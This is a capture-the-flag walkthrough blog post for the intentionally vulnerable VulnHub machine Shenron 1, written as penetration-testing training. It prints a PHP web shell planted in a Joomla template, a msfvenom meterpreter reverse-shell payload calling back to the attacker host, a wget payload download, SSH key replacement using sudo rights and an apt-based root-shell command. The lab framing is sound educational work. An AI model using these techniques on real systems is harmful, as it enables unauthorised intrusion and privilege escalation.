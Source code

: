 ```yaml
---
title: CTF Walkthrough for VulnHub Machine Shenron 1
date: 2024-08-30 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [vulnhub, writeup, shenron, machines, pentest]   
author: christ
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Shenron 1 which is the first machine of the Vulnhub Shenron series machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Description
Name: Shenron 1<br>
Goal: Get two flags<br>
Difficulty: Beginner to Intermediate<br>
Operating System: Linux<br>
Download link: [Shenron-1](https://download.vulnhub.com/shenron/shenron-1.ova)<br>
### Tools used
*Nmap<br>
*Netcat<br>
*Metasploit Framework<br>
### Environment Set up
A successful penetration tester is organised. Organisation facilitates documentation and makes our progress easily trackable. So to stay organised in this workshop we will create a directory tree to keep track of our progress. A good description of the use of each directory can be find [Here]().
![Working Dir](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/working-dir.png)

## Reconnaissance
As in every penetration test, we need to identify our target on the network. We can do this by launching a quick host discovery scan against the network using Nmap. To perform the host verification we need to know our current subnet. We can perform this using the commands below:<br>
Current subnet identification: ```bash ip a```<br>
Host discovery scan: ```sudo nmap -sn 10.0.2.15/24```<br><br>
![Host Identification](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/target-dis.png)

After identifying our target on the network we need to know what services are run by our target to create different possible attack scenarios. We can start a service scan on our target using Nmap with the command ```sudo nmap -sV -sC  10.0.2.4 -oA services-dis```
![Service Scan](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/service-scan.png)

We can see that the target is running both an SSH server and an Apache web server. Web applications are known to contain many vulnerabilities so let's browse to the web application for further analyses. Unfortunately for us, we fall on the default Apache
![Wep App Index Page](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web%20app%20index%20page.png)

In the real-world scenario, the default page might be left temporarily during the setup or testing phases of the web application. So let's try to find any hidden directories in the web application. I performed the fuzzing here using **ffuf** it can be done using your tool of preference.
Command used: ```ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.4/FUZZ```
![Directory Fuzzing](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/dir-fuzzing-1.png)

The fuzzing process can uncover two interesting directories which are *test* and *joomla*. The directory joomla already gives us a hint that the web application may be running the well-known CMS Joomla. Let's browse these directories chronologically as they appeared during our fuzzing.
Browsing to the *test* directory we notice that directory listing is enabled which is a vulnerability in itself. We can note this vulnerability in our *Findings* folder. 
![Directory Listing](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/directory-listing.png)
We can also see a file having an interesting name i.e. *password*, accessing the file from our command line reveals to us a pair of credentials belonging to a certain admin user.
![File Accessed](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-accessed-1.png)

Nex let's visit the second directory *joomla* uncovered during our fuzzing. We can see that our target runs the well-known Joomla CMS. Remember that we uncover credentials hidden in the comments of the password file so, let's try this credential against the Joomla instance to check if they are valid.
*NB: Login to the administrative interface on Joomla is done by default in the **administrator** directory.*
![Joomla Login](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/joomla-login.png)

## Exploitation
We can see that we successfully login as the admin. We can now attempt to add a PHP shell to one PHP file in an unused template. Here, we will choose the protostar template and add our basic PHP shell ```system($_GET["cmd"]);``` to the error.php file.
*NB: In a real-world penetration test try to use a more complicated name such as a hash for the GET parameter value. Anyone can access that file hence if a common name is used attackers may bruteforce it and also use it to establish their foothold in your client environment.*
![Template Modification](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/template-modification.png)
After modifying our template we can now execute commands on our target. ```curl http://10.0.2.4/joomla/templates/protostar/error.php?cmd=id```
![RCE Test](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/rce-test.png)

This web shell is good but to facilitate our work, we will employ Meterpreter, a sophisticated payload integrated into the Metasploit Framework. To use a meterpreter on our target we first need to craft one using the msfvenom tool from the Metasploit Framework.
```msfvenom -p linux/x64/meterpreter_reverse_tcp  LHOST=10.0.2.15 LPORT=4444 -f elf > update.elf```
![Payload Crafting](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-crafting-1.png)
Now after crafting our payload we then start a small HTTP server to transfer the payload to our target using Python3 http.server module.
![Python Server](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/python-server-1.png)

We then use *wget* on our target to download to download the payload to the */tmp* directory.
![Download Operation](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/download-operation-1.png)
Before executing our payload we need to configure our listener in Metasploit.
![Metasploit Set Up](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/metasploit-set-up.png)
After starting our listener we can now give execution permission to our payload and execute it.
![Payload Execution](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-exec-1.png)
Going back to the listener, we can see that we caught a shell.
![Catching Shell](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/catching-shell-1.png)
After obtaining a shell as the web user it's a good habit to search for the *web.config* file in the web root directory which may contain credentials for the database user.<br> *NB: The name of this file may change depending on the preference of the web administrator.*
![Web Config File](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web-root-dir.png)
![DB User Creds](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/db-creds.png)
We see that the credentials belong to the user **jenny** who is also a user on the target machine so let's try to authenticate as the user jenny.<br>
*Tip: To enumerate users on the system just cat the content of the /etc/passwd file*
![User Auth](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-auth-1.png)

We have identified that the user is susceptible to vulnerabilities arising from password reuse. With this password, we can directly try to identify if the user has any sudo rights.
![Sudo Right](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-1.png)

Great we see that the user Jenny can perform copy operations by using Shenron identity. Since we observed an SSH service running during our service enumeration let's try to replace the SSH key of Shenron by using the privileges offered to us by the sudo command.
We can generate a key pair \(private, public\) on our attack host and upload the public key using the same method used above or upload it using our powerful meterpreter.
![SSH Key Gen](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-gen-1.png)
After uploading the public key we can now replace the **authorized_keys** file in Shenron's **.ssh** directory by impersonating Shenron using our sudo rights and then afterward attempting to use the private key to log in as Shenron
![SSH Key Replace](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-replacement-1.png)
![SSH Login](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-login-1.png)
Great, we successfully logged in as Shenron we can now use this new account to read the user's flag and continue our enumeration of the system.
![User Flag](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-flag.png)
Some users tend to store their passwords in specific files so, let's try to enumerate all files having the string *password* in their names with the command ```find / -iname *password* 2>/dev/null``. We got a hit in the **/var/opt** directory. Reading the content of the files exposes to us what seems like Shenron's password.
![File Enum]()
We can now use that password to read Shenron's sudo rights
![Sudo Right]()
We can observe that this account can be used to run apt with root privilege. Let's browse to [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#sudo) to see how we can exploit this right to obtain a root shell. Here the command ```sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh``` can be used to obtain a root shell as demonstrated in the image.
![Root Access](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/root-access.png) 






